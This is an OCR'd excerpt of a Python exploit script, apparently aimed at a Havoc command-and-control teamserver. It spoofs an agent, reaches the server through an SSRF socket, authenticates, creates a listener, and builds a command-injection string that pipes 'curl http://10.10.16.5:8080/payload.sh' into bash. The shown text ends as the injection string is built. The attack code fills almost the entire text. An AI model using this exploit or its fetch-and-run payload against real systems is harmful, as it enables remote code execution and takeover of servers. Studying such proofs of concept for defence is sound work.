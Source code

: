 ```python
parser.add_argument("-n", "--process-name", help="The process name for the spoofed agent", default="msedge.exe")
parser.add_argument("-ip", "--internal-ip", help="The internal ip for the spoofed agent", default="10.1.33.7")

args = parser.parse_args()

# 0xDEADBEEF
magic = b"\xde\xad\xbe\xef"
teamserver_listener_url = args.target
headers = {
        "User-Agent": args.user_agent
}
agent_id = int_to_bytes(random.randint(100000, 1000000))
AES_Key = b"\x00" * 32
AES_IV = b"\x00" * 16
hostname = bytes(args.hostname, encoding="utf-8")
username = bytes(args.username, encoding="utf-8")
domain_name = bytes(args.domain_name, encoding="utf-8")
internal_ip = bytes(args.internal_ip, encoding="utf-8")
process_name = args.process_name.encode("utf-16le")
process_id = int_to_bytes(random.randint(1000, 5000))
ip = args.ip
port = args.port

#register agent
register_agent(hostname, username, domain_name, internal_ip, process_name, process_id)

#open socket
socket_id = b"\x11\x11\x11\x11"
open_socket(socket_id, args.ip, int(args.port))

#authenticate to teamserver
message="[***] Establishing connection to teamserver ..."
websocket_request = create_websocket_request(ip, port)
write_socket(socket_id, websocket_request,message)

message="[***] Authenticating to teamserver ..."
payload = {"Body": {"Info": {"Password": hashlib.sha3_256(PASSWORD.encode()).hexdigest(), "User": USER}, "SubEvent": 3}, "Head": {"Event": 1, "OneTime": "", "Time": "18:40:17", "User": USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame,message)

#create listener
message="[***] Creating Listener ..."
payload = {"Body":{"Info":{"Headers":"","HostBind":"0.0.0.0","HostHeader":"","HostRotation":"round-robin","Hosts":"0.0.0.0","Name":"abc","PortBind":"443","PortConn":"443","Protocol":"Https","Proxy Enabled":"false","Secure":"true","Status":"online","Uris":"","UserAgent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"},"SubEvent":1},"Head":{"Event":2,"OneTime":"","Time":"08:39:18","User": USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame, message)

#SSRF payload (comand injection)
message="[***] Injecting Command ..."
cmd = "curl http://10.10.16.5:8080/payload.sh | bash" #CHANGE ME
injection = """ \\\\\\\" -mbla; """ + cmd + """ 1>&2 && false #"""
```